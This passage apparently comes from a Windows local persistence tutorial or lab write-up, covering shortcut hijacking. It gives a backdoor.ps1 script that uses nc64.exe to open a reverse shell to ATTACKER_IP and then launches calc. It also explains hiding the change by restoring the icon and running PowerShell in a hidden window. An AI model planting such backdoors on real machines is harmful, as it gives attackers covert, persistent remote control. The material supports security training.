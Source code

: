 ### 2.2 Shortcut Files

If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.

For this task, let's check the shortcut to calc on the Administrator's desktop. If we right-click it and go to properties, we'll see where it is pointing:

![image](/img/WindowsLocalPersistence/3.png)

Before hijacking the shortcut's target, let's create a simple Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse shell and then run calc.exe from the original location on the shortcut's properties:

```backdoor.ps1
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Finally, we'll change the shortcut to point to our script. Notice that the shortcut's icon might be automatically adjusted while doing so. Be sure to point the icon back to the original executable so that no visible changes appear to the user. We also want to run our script on a hidden window, for which we'll add the `-windowstyle hidden` option to Powershell. The final target of the shortcut would be:

```Command Prompt
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```
